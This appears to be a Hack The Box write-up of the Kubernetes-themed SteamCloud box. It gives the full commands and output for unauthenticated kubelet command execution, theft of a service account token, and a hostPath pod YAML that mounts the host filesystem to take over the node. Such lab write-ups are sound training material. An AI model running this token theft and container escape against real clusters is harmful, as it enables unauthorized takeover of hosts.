

# Hack The Box - SteamCloud



SteamCloud is an easy Kubernetes-themed box that starts with access to the kubelet on a node and ends with a full host compromise through a malicious pod. The key steps are: enumerate the cluster, extract a service account token from the running pod, authenticate to the Kubernetes API, and then deploy a pod that mounts the host filesystem.

## Reconnaissance

I started with a full port scan to map out the exposed services.

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.133
```

The scan showed SSH, etcd, the Kubernetes API, and kubelet-related services:

```text
22/tcp    open  ssh
2379/tcp  open  etcd-client
2380/tcp  open  etcd-server
8443/tcp  open  https-alt
10249/tcp open  unknown
10250/tcp open  unknown
10256/tcp open  unknown
```

I followed up with service/version detection:

```bash
nmap -p 22,2379,2380,8443,10249,10250,10256 -sCV -oA scans/nmap-tcpscripts 10.10.11.133
```

The TLS certificate on port 8443 exposed Kubernetes-related names such as `minikube`, `kubernetes.default.svc`, and `control-plane.minikube.internal`, which made it clear this was a Kubernetes cluster.

## Kubernetes Access

Port 8443 was the Kubernetes API server. A direct request returned a 403, and unauthenticated `kubectl` usage prompted for credentials.

```bash
kubectl --server https://10.10.11.133:8443 get pod
kubectl --server https://10.10.11.133:8443 get namespaces
kubectl --server https://10.10.11.133:8443 cluster-info
```

All of those requests asked for a username, so I moved to the kubelet service on port 10250.

## Kubelet Enumeration

Using the kubelet, I listed the pods on the node:

```bash
kubeletctl pods -s 10.10.11.133
```

The output showed several system pods and one user-facing pod:

```text
1 │ storage-provisioner                │ kube-system │ storage-provisioner
2 │ coredns-78fcd69978-7dhjv           │ kube-system │ coredns
3 │ nginx                              │ default     │ nginx
4 │ etcd-steamcloud                    │ kube-system │ etcd
5 │ kube-apiserver-steamcloud          │ kube-system │ kube-apiserver
6 │ kube-controller-manager-steamcloud │ kube-system │ kube-controller-manager
7 │ kube-scheduler-steamcloud          │ kube-system │ kube-scheduler
8 │ kube-proxy-562gf                   │ kube-system │ kube-proxy
```

I also pulled the running pod list:

```bash
kubeletctl runningpods -s 10.10.11.133
```

For readability, I reduced it with `jq`:

```bash
kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata | [.name, .namespace]'
```

That confirmed the only non-system pod was `nginx` in the `default` namespace.

## Shell in nginx

With access to the kubelet service, I could execute commands in the container.

```bash
kubeletctl -s 10.10.11.133 exec "id" -p nginx -c nginx
```

That returned:

```text
uid=0(root) gid=0(root) groups=0(root)
```

I confirmed the pod was accessible as root and read the flag already available in `/root`:

```bash
kubeletctl -s 10.10.11.133 exec "ls /root" -p nginx -c nginx
kubeletctl -s 10.10.11.133 exec "cat /root/user.txt" -p nginx -c nginx
```

The user flag output was:

```text
e73f21f6**
```

## Service Account Extraction

I checked the standard Kubernetes service account directory:

```bash
kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
```

It contained the expected files:

```text
ca.crt  namespace  token
```

I dumped the certificate and token:

```bash
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token
```

Then I exported the token for reuse:

```bash
export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```

With the CA certificate and token, I could authenticate to the Kubernetes API:

```bash
kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
```

That returned the running pod list, proving the authentication worked.

## RBAC Check

I checked what the service account was allowed to do:

```bash
kubectl auth can-i --list --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```

The important result was that the account could `get`, `create`, and `list` pods. That was enough to move forward with pod creation.

I also inspected the `nginx` pod spec:

```bash
kubectl get pod nginx -o yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```

Two useful details stood out:

```text
namespace: default
image: nginx:1.14.2
```

## Host Compromise

The plan was to create a new pod that mounted the host filesystem at `/mnt`.

### Malicious Pod

I used this pod definition:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: deadbeef-pod
  namespace: default
spec:
  containers:
  - name: deadbeef-pod
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

I applied it through the Kubernetes API:

```bash
kubectl apply -f evil-pod.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
kubectl get pod --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token
```

The new pod showed up alongside the existing `nginx` pod.

### Execution in the New Pod

I confirmed it was visible from the kubelet too:

```bash
kubeletctl pods -s 10.10.11.133
```

Then I executed commands inside it:

```bash
kubeletctl exec "id" -s 10.10.11.133 -p deadbeef-pod -c deadbeef-pod
```

That returned:

```text
uid=0(root) gid=0(root) groups=0(root)
```

I listed the mounted host filesystem:

```bash
kubeletctl exec "ls /mnt/" -s 10.10.11.133 -p deadbeef-pod -c deadbeef-pod
```

The output showed the real host filesystem contents:

```text
bin   home   lib32   media  root  sys  vmlinuz
boot  initrd.img  lib64  mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32  opt  sbin  usr
etc   lib   lost+found  proc   srv   var
```

Finally, I read the root flag:

```bash
kubeletctl exec "cat /mnt/root/root.txt" -s 10.10.11.133 -p deadbeef-pod -c deadbeef-pod
```

That returned:

```text
98c251ea**
```

## Attack Path

- **Scan the host** — identify Kubernetes-related ports and SSH.
- **Recognize the cluster** — confirm the system is running a minikube-style Kubernetes setup.
- **Use kubelet access** — enumerate pods and execute commands in the `nginx` container.
- **Extract service account data** — steal `ca.crt` and `token`.
- **Authenticate to the API** — use `kubectl` with the stolen token.
- **Check permissions** — confirm the service account can create pods.
- **Deploy a malicious pod** — mount `/` from the host into the container.
- **Read the root flag** — access `/mnt/root/root.txt` through the pod.
